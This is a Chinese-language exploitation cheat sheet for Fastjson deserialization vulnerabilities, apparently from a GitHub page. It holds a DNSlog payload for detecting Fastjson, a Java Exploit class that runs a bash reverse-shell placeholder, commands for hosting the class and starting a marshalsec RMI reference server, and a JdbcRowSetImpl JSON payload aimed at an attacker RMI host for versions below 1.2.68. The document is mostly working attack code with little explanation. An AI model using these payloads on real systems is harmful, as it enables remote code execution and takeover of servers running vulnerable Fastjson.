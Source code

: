 # Fastjson

### 探测Fastjson

探测是否存在Fastjson可以使用以下payload

```
{"@type":"java.net.Inet4Address","val":"bouaiq.dnslog.cn"}
```

为什么只要是Fastjson都可以进行探测呢？

因为java.net.Inet4Address这个类在Fastjson的白名单内，所以无论什么时候都可以进行反序列化。

## 反序列化漏洞

RMI链

```
import java.io.BufferedReader;
import java.io.InputStream;
import java.io.InputStreamReader;

public class Exploit{
    public Exploit() throws Exception {
        Process p = Runtime.getRuntime().exec(new String[]{"bash", "-c", "反弹shell命令"});
        InputStream is = p.getInputStream();
        BufferedReader reader = new BufferedReader(new InputStreamReader(is));

        String line;
        while((line = reader.readLine()) != null) {
            System.out.println(line);
        }

        p.waitFor();
        is.close();
        reader.close();
        p.destroy();
    }

    public static void main(String[] args) throws Exception {
    }
}

```

javac Exploit.java

开启一个http服务，需要能访问到Exploit.class文件

```
python3 -m http.server --bind 0.0.0.0 8888
```

RMI to HTTP

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://1.1.1.1:8888/#Exploit" 9999
```

### <1.2.68

```
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://x.x.IP.x:9999/Exploit",
        "autoCommit":true
    }
}
```

